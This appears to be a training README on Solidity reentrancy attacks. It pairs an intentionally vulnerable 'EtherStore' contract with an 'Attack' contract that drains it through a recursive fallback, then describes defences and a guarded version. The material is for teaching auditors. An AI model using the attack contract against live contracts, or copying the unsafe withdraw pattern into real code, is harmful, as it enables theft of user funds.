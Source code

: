 # GUILD-AUDIT-Smart-contract-Audting-Training-week3-4-5-6

These are smart contract attack vectors and vulnerability with code examples.

## SOLIDITY ATTACK VECTORS: #1 - REENTRANCY ATTACK

A reentrancy attack in solidity repeatedly withdraws funds from a smart contract and transfers them to an unauthorized contract until the funds have been exhausted. The attack occurs when a smart contract function temporarily gives up control flow of the transaction by making an external call to a contract that is sometimes written by unknown or possibly hostile actors.

The following are prominent reentrancy attacks in blockchain protocols: The DAO hack, Lendf.me, Fei Protocol, Paraluni, Grim Finance, SIREN Protocol, and Cream Finance.

There are two types of reentrancy attacks: a single function and cross-function reentrancy attack. 

1. Single Reentrancy Attacks: occurs when the vulnerable function is the same function the attacker is trying to recursively call.

2. Cross-function Reentrancy Attacks: is feasible only when a vulnerable function shares state with another function that has a desirable effect for the attacker.

### How does a reentrancy attack work? 
A reentrancy attack creates a recursive process that transfers funds between two smart contracts, the vulnerable contract and the malicious contract. Here are the steps of a reentrancy attack:

![Reentrancy Attack Illustration](/images/solidity-reentrancy-attack.jpg "Reentrancy Attack Illustration")

1. The bad actor makes a call on the vulnerable contract, "`EtherStore`", to transfer funds to the malicious contract, "`Attack`".
2. Contract `EtherStore` determines whether the attacker has the necessary funds, then proceeds to transfer the funds to contract `Attack`.
3. Once contract `Attack` receives the funds, it executes a callback function which calls back into contract `EtherStore` before the balance is updated.
4. This recursive process continues until all funds have been exhausted and transferred.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### How to Prevent a Reentrancy Attack
Developing a rigorous blockchain security framework is critical to prevent and mitigate potential damage from a reentrancy attack. The following anti-reentrancy best practices will help developers and the broader web3 community secure their funds: checks, effects and interactions (CEI), reentrancy guards, pull payments, and gas limits.

1. Checks, Effects, and Interactions (CEI)
The CEI process is a rudimentary method to prevent reentrancy. `Checks` refer to the truthfulness of the condition, `effects` refer to state modifications that result from interaction, and `interactions` refer to transactions between functions or contracts. State updates are performed before the value transfer that they record.

2. Potential security risks and loopholes associated with placing executive effects before interactions are an important consideration for developers. 

3. Reentrancy Guard or Mutex
A reentrancy guard or mutex can be created as a function or function modifier. A boolean lock is placed around the function call that is vulnerable to reentrancy. This implies that the initial state of ‘locked’ is false, however, it is set to true immediately before the vulnerable function execution begins and is then quickly set back to false after termination. 

4. Pull Payment
A more secure end-to-end transaction is by using the pull payment methodology. The pull payment process mandates using an intermediary escrow to send funds and avoids direct contact with a potentially hostile contact. By sending funds via an intermediary escrow, the smart contract's funds are protected from a reentrancy attack. The escrow could be subject to reentrancy if it manages funds for multiple accounts. The CEI pattern and reentrancy guard should be implemented where appropriate. 

5. Gas limit
Gas limits are not an optimal method to avert an attacker since gas costs depend on Ethereum’s opcodes, which are subject to change. On the other hand, smart contract code is immutable. Understanding the difference between the send, transfer, and call functions is important. Send and transfer are effectively the same, but the transfer will revert if the transaction fails and send will not. Unlike send and transfer, the call function does not have a gas limit and will forward its gas to execute multi-contract transactions. Unfortunately, this also means that reentrancy attacks are possible. 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract EtherStore {
    mapping(address => uint) public balances;
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public noReentrant {
        uint bal = balances[msg.sender];
        require(bal > 0);

        balances[msg.sender] = 0; // the balance is updated before the transfer

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
In the contract above, the state was updated before the transfer, there is also a reentrancy modifier guard. These two methods can be used to prevent reentrancy.

### CONCLUSION
Re-entrancy attacks are made possible by the use of a logical but insecure code pattern when performing transfers within Ethereum smart contracts. Bad actors exploit the blockchain by implementing reentrancy attacks to transfer and drain funds from vulnerable smart contracts.